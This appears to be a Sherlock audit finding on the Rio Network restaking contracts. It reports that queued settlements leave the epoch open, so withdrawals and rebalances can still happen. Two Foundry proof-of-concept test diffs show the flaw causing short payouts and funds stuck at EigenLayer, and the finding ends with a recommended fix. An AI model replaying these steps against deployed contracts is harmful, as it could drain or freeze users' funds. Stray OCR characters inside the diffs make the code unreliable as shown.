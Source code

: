 Overt Rouge Porcupine

medium

# Users can still request withdrawals and rebalance when settlement is queued.

## Summary
Because epoch is not increased after `RioLRTWithdrawalQueue.queueCurrentEpochSettlement()`, further withdrawal requests and rebalances  to an epoch who has its settlement queued are still possible, consequently resulting is loss of funds to the users and to the protocol. 

## Vulnerability Detail
When there aren't enough funds in the deposit pool to pay all withdrawals requests, withdrawal is requested from Eigenlayer and settlement is queued by `RioLRTWithdrawalQueue.queueCurrentEpochSettlement()` . However  `queueCurrentEpochSettlement()`  does not increase the epoch.

As the epoch has not ended, this leads to two possible situations. Both of which has damaging consequences, as it will be described further.
1) users can still request withdrawals to that epoch, even though that withdrawal has already been queued at Eigenlayer.
2) user can call `rebalance` again even though settlement is already queued.

Consider the first situation. After settlement is queued, users can still request withdrawals, as a result `epochWithdrawals.sharesOwed` will be increased, but the funds received won't be increased (as it was defined at the time `RioLRTCoordinator._processUserWithdrawalsForCurrentEpoch()` was executed). As a consequence not enough funds will be withdrawn from Eigenlayer and users will receive less funds than expected. See POC below:

```diff
diff --git a/rio-sherlock-audit/test/RioLRTWithdrawalQueue.t.sol b/rio-sherlock-audit/test/RioLRTWithdrawalQueue.t.sol
index 1254b83..6066481 100644
--- a/rio-sherlock-audit/test/RioLRTWithdrawalQueue.t.sol
+++ b/rio-sherlock-audit/test/RioLRTWithdrawalQueue.t.sol
@@ -464,6 +464,72 @@ contract RioLRTWithdrawalQueueTest is RioDeployer {
         assertEq(cbETH.balanceOf(address(this)) - balanceBefore, amount);
     }
 
+    function test_POC() public {
+        uint8 operatorId = addOperatorDelegator(reLST.operatorRegistry, address(reLST.rewardDistributor));
+        address operatorDelegator = reLST.operatorRegistry.getOperatorDetails(operatorId).delegator;
+
+        //Setup alice
+        cbETH.approve(address(reLST.coordinator), type(uint256).max);
+        uint256 amount = 10e18;
+        address alice = address(11111);
+        cbETH.mint(alice, amount);
+        vm.startPrank(alice);
+        cbETH.approve(address(reLST.coordinator), type(uint256).max);
+        uint256 tokensAlice = reLST.coordinator.deposit(CBETH_ADDRESS, amount);
+        vm.stopPrank();
+
+        //Setup bob
+        address bob = address(22222);
+        cbETH.mint(bob, amount);
+        vm.startPrank(bob);
+        cbETH.approve(address(reLST.coordinator), type(uint256).max);
+        uint256 tokensBob = reLST.coordinator.deposit(CBETH_ADDRESS, amount);
+        vm.stopPrank();
+
+        vm.prank(EOA, EOA);
+        reLST.coordinator.rebalance(CBETH_ADDRESS);
+
+        // Alice requests her withdrawal
+        vm.prank(alice);
+        reLST.coordinator.requestWithdrawal(CBETH_ADDRESS, tokensAlice);
+        skip(reLST.coordinator.rebalanceDelay());
+        uint256 withdrawalEpoch = reLST.withdrawalQueue.getCurrentEpoch(CBETH_ADDRESS);
+
+        vm.prank(EOA, EOA);
+        reLST.coordinator.rebalance(CBETH_ADDRESS);
+        
+        IRioLRTWithdrawalQueue.EpochWithdrawalSummary memory epochSummary =
+            reLST.withdrawalQueue.getEpochWithdrawalSummary(CBETH_ADDRESS, withdrawalEpoch);
+        //Ensure that settlement has already been queued 
+        assertTrue(epochSummary.aggregateRoot != bytes32(0));
+
+        //Bob requests his withdrawal after settlement queued.
+        vm.prank(bob);
+        reLST.coordinator.requestWithdrawal(CBETH_ADDRESS, tokensBob);
+    e--
+        IDelegationManager.Withdrawal[] memory withdrawals = new IDelegationManager.Withdrawal[](1);
+        withdrawals[0] = IDelegationManager.Withdrawal({
+            staker: operatorDelegator,
+            delegatedTo: address(1),
+            withdrawer: address(reLST.withdrawalQueue),
+            nonce: 0,
+            startBlock: 1,
+            strategies: CBETH_STRATEGY.toArray(),
+            shares: (amount).toArray()
+        });
+        reLST.withdrawalQueue.settleEpochFromEigenLayer(CBETH_ADDRESS, withdrawalEpoch, withdrawals, new uint256[](1));
+
+        vm.prank(bob);
+        uint256 cbETHWithdrawnAlice = reLST.withdrawalQueue.claimWithdrawalsForEpoch(
+            IRioLRTWithdrawalQueue.ClaimRequest({asset: CBETH_ADDRESS, epoch: withdrawalEpoch})
+        );
+        IRioLRTWithdrawalQueue.UserWithdrawalSummary memory bobSummary =
+            reLST.withdrawalQueue.getUserWithdrawalSummary(CBETH_ADDRESS, withdrawalEpoch, bob);
+
+        //Bob is able to claim even though he requested withdrawal after settlement queued.
+        assertEq(bobSummary.claimed, true);
+    }--
+
     function test_claimWithdrawalsForManyEpochs() public {
         IRioLRTWithdrawalQueue.ClaimRequest[] memory claimRequests = new IRioLRTWithdrawalQueue.ClaimRequest[](3);
         for (uint256 i = 0; i < 3; i++) {
```

The second scenario occurs because the interval required to get funds from Eigenlayer is bigger (7 days) than the delay needed to call `RioLRTCoordinator.rebalance()` again. As epoch was not increased after `queueCurrentEpochSettlement()`, it is possible to wait until the rebalance delay has passed and then call `rebalance()`  again. If during this second call to `rebalance()` there is enough funds in the deposit pool, then the epoch will be settled even though the Eigenlayer withdraw is still queued and also setting `epochWithdrawals.settled` to true. Therefore when `RioLRTWithdrawalQueue. settleEpochFromEigenLayer` is called it will revert  and those funds will be stuck at Eigenlayer as the withdrawal can never be completed. See POC below:

```diff
diff --git a/rio-sherlock-audit/test/RioLRTWithdrawalQueue.t.sol b/rio-sherlock-audit/test/RioLRTWithdrawalQueue.t.sol
index 1254b83..4026258 100644
--- a/rio-sherlock-audit/test/RioLRTWithdrawalQueue.t.sol
+++ b/rio-sherlock-audit/test/RioLRTWithdrawalQueue.t.sol
@@ -464,6 +464,46 @@ contract RioLRTWithdrawalQueueTest is RioDeployer {
         assertEq(cbETH.balanceOf(address(this)) - balanceBefore, amount);
     }
 
+    function test_POC2() public {
+        uint8 operatorId = addOperatorDelegator(reLST.operatorRegistry, address(reLST.rewardDistributor));
+        address operatorDelegator = reLST.operatorRegistry.getOperatorDetails(operatorId).delegator;
+        uint256 amount = 8e18;
+        cbETH.approve(address(reLST.coordinator), type(uint256).max);
+        uint256 restakingTokensOut = reLST.coordinator.deposit(CBETH_ADDRESS, amount);
+        vm.prank(EOA, EOA);
+        reLST.coordinator.rebalance(CBETH_ADDRESS);
+
+        //1. Request a withdrawal for the tokens from EigenLayer and rebalance.
+        uint256 withdrawalEpoch = reLST.withdrawalQueue.getCurrentEpoch(CBETH_ADDRESS);
+        reLST.coordinator.requestWithdrawal(CBETH_ADDRESS, restakingTokensOut);
+        skip(reLST.coordinator.rebalanceDelay());
+        vm.prank(EOA, EOA);
+        reLST.coordinator.rebalance(CBETH_ADDRESS);
+
+        //2. Rebalance again but now with enough funds for settlement to occur.
+        //Note that epoch is settle even though it was already queued at Eigenlayer
+        cbETH.approve(address(reLST.coordinator), type(uint256).max);
+        reLST.coordinator.deposit(CBETH_ADDRESS, amount);
+        skip(reLST.coordinator.rebalanceDelay());
+        vm.prank(EOA, EOA);
+        reLST.coordinator.rebalance(CBETH_ADDRESS);
+        
+        IDelegationManager.Withdrawal[] memory withdrawals = new IDelegationManager.Withdrawal[](1);
+        withdrawals[0] = IDelegationManager.Withdrawal({
+            staker: operatorDelegator,
+            delegatedTo: address(1),
+            withdrawer: address(reLST.withdrawalQueue),
+            nonce: 0,
+            startBlock: 1,
+            strategies: CBETH_STRATEGY.toArray(),
+            shares: amount.toArray()
+        });
+
+        //Check that queued settlement will revert because epoch was already settled.
+        vm.expectRevert(IRioLRTWithdrawalQueue.EPOCH_ALREADY_SETTLED.selector);
+        reLST.withdrawalQueue.settleEpochFromEigenLayer(CBETH_ADDRESS, withdrawalEpoch, withdrawals, new uint256[](1));
+    }--
+
     function test_claimWithdrawalsForManyEpochs() public {
         IRioLRTWithdrawalQueue.ClaimRequest[] memory claimRequests = new IRioLRTWithdrawalQueue.ClaimRequest[](3);
         for (uint256 i = 0; i < 3; i++) {
```

## Impact
Loss of funds to the users and to the protocol. 

## Code Snippet
https://github.com/sherlock-audit/2024-02-rio-network-core-protocol/blob/main/rio-sherlock-audit/contracts/restaking/RioLRTWithdrawalQueue.sol#L92-L108

https://github.com/sherlock-audit/2024-02-rio-network-core-protocol/blob/main/rio-sherlock-audit/contracts/restaking/RioLRTWithdrawalQueue.sol#L151-L271

## Tool used
Manual Review

## Recommendation
Both situations require different remediations, consider blocking further withdrawals request when settlement is queued. Regarding rebalances, block `RioLRTWithdrawalQueue.settleCurrentEpoch()` to be called when settlement is queued.